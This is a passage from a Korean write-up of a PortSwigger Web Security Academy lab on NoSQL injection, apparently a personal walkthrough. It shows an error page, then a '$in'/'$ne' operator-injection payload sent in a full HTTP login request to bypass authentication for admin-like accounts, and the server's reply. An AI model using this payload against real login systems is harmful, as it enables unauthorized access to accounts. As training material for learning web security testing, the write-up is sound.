 ```http
                        </div>
                        <div class='widgetcontainer-lab-status is-notsolved'>
                            <span>LAB</span>
                            <p>Not solved</p>
                            <span class=lab-status-icon></span>
                        </div>
                    </div>
                </div>
            </section>
        </div>
        <div theme="">
            <section class="maincontainer">
                <div class="container is-page">
                    <header class="navigation-header">
                    </header>
                    <h4>Internal Server Error</h4>
                    <p class=is-warning>Query returned unexpected number of records</p>
                </div>
            </section>
        </div>
    </body>
</html>

```

5. 이어서 다음을 수행해본다. 만약 admin, administrator, superadmin중에 하나라도 존재하는 계정이 있으면 로그인이 될 것이다. 

`{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}`

```http
POST /login HTTP/2
Host: 0ac900fe040e691d83b3647700400094.web-security-academy.net
Cookie: session=JfmsNEjgFPT37HXmriKAf7uyEwrnvwiK
Content-Length: 40
Sec-Ch-Ua: "Google Chrome";v="117", "Not;A=Brand";v="8", "Chromium";v="117"
Sec-Ch-Ua-Platform: "Windows"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/117.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: https://0ac900fe040e691d83b3647700400094.web-security-academy.net
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://0ac900fe040e691d83b3647700400094.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7

{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```

이번에는 200응답이고, `Invalid username or password` 라는 메세지가 돌아왔다. username 또는 password가 맞지 않다는 내용이다. password는 공백이 아닌 조건이므로 수정할 필요가 없을 것 같고... username을 좀 더 추가해봐야 겠다. 
